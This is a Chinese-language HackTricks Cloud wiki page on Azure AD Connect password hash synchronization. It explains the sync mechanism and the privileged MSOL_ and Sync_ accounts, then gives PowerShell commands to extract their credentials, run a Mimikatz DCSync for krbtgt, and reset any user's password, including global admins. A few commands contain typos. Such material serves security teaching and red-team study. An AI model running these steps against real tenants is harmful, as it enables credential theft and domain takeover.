 # Az - PHS - 密码哈希同步

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **密码哈希同步** 是实现混合身份的一种登录方法。**Azure AD Connect** 将用户密码的哈希值从本地 Active Directory 实例同步到基于云的 Azure AD 实例。

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

这是公司用来将本地 AD 与 Azure AD 同步的 **最常见方法**。

所有 **用户** 和 **密码哈希的哈希** 都从本地同步到 Azure AD。然而，**明文密码** 或 **原始** **哈希** 不会发送到 Azure AD。\
此外，**内置** 安全组（如域管理员等）不会 **同步** 到 Azure AD。

**哈希同步** 每 **2 分钟** 发生一次。然而，默认情况下，**密码过期** 和 **账户** **过期** 在 Azure AD 中 **不同步**。因此，**本地密码过期**（未更改）的用户可以继续使用旧密码 **访问 Azure 资源**。

当本地用户想要访问 Azure 资源时，**身份验证在 Azure AD 上进行**。

**PHS** 是 **身份保护** 和 AAD 域服务等功能所必需的。

## 侧向移动

当配置 PHS 时，一些 **特权账户** 会自动 **创建**：

* 账户 **`MSOL_<installationID>`** 会在本地 AD 中自动创建。该账户被赋予 **目录同步账户** 角色（见 [文档](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)），这意味着它在本地 AD 中具有 **复制 (DCSync) 权限**。
* 账户 **`Sync_<name of on-prem ADConnect Server>_installationID`** 会在 Azure AD 中创建。该账户可以 **重置 Azure AD 中任何用户**（同步或仅云）的密码。

这两个特权账户的密码 **存储在 SQL 服务器** 上，该服务器是 **Azure AD Connect 安装的服务器**。管理员可以提取这些特权用户的明文密码。\
数据库位于 `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`。

可以从其中一个表中提取配置，其中一个是加密的：

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**加密配置** 是用 **DPAPI** 加密的，它包含本地 AD 中 **`MSOL_*`** 用户的 **密码** 和 AzureAD 中 **Sync\_\*** 的密码。因此，妥协这些信息可以提升到 AD 和 AzureAD 的权限。

您可以在此演讲中找到 [关于这些凭据如何存储和解密的完整概述](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### 查找 **Azure AD Connect 服务器**

如果 **安装 Azure AD Connect 的服务器** 加入了域（文档中推荐），可以通过以下方式找到它：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### 滥用 MSOL\_*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
您还可以使用 [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) 来获取这些凭据。
{% endhint %}

### 滥用 Sync\_\*

妥协 **`Sync_*`** 账户可以 **重置任何用户的密码**（包括全局管理员）。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
也可以**仅修改云**用户的密码（即使这出乎意料）
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
可以转储该用户的密码。

{% hint style="danger" %}
另一个选项是**为服务主体分配特权权限**，而**Sync**用户有**权限**这样做，然后**访问该服务主体**作为特权提升的方法。
{% endhint %}

### 无缝单点登录

可以使用PHS进行无缝单点登录，但它容易受到其他滥用。请查看：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
学习和实践AWS黑客攻击：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践GCP黑客攻击：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR来分享黑客技巧。

</details>
{% endhint %}
